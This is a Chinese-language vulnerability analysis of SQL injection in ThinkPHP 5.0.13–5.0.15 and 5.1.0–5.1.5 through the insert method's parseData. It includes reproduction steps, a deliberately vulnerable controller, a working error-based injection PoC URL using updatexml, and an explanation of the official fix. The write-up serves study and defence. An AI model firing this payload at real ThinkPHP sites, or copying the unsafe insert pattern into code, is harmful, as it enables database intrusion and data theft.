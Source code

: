 ```yaml
---
title: 5.0.13 <= Thinkphp <= 5.0.15 sql注入漏洞
id: zhfly3162
---
```


# 5.0.13 <= Thinkphp <= 5.0.15 & 5.1.0 <= Thinkphp <= 5.1.5

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert** 方法注入）。本次漏洞存在于 **Builder** 类的 **parseData** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。

## 二、漏洞影响

**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。

## 三、复现过程

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.15 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->insert([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **application/database.php** 文件中配置数据库相关信息，并开启 **application/config.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
); 
```

### poc

```
http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/037ce33eedef07ea33ba24661df49e12.png)

### 漏洞分析

![2.png](../img/a8726ae41d82d0040db0dfba745fa726.png)

首先在官方发布的 **5.0.16** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](../img/6e61d6ac1065c908972ec2997bb1a021.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，代码如下：

![4.png](../img/a7ba6b5a5c541fd1ef80d37df51239b5.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的 **$this->builder->insert()** 最终调用的是 **Builder** 类的 **insert** 方法。在 **insert** 方法中，我们看到其调用 **parseData** 方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据 **$val** 进行了拼接返回。我们的恶意数据存储在 **$val[1]** 中，虽经过了 **parseKey** 方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](../img/4663617b6d170576a2db0c90ee9e6917.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的 **insert** 方法，直接通过替换字符串的方式，将 **$data** 填充到 **SQL** 语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](../img/f02df8f90e0a4ce8504b21e83c006457.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch** 结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察 **ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec** 进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP** 内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格** ，这也是为什么 **ThinkPHP** 官方没有对 **exp** 的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](../img/82bafba85780bf87311d9cf36d164555.png)

### 漏洞修复

![8.png](../img/7124cc7f69d4b82df0a00d676a3728c6.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](../img/c2ccbf2fb0267ed7c940515c7a7aecf8.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln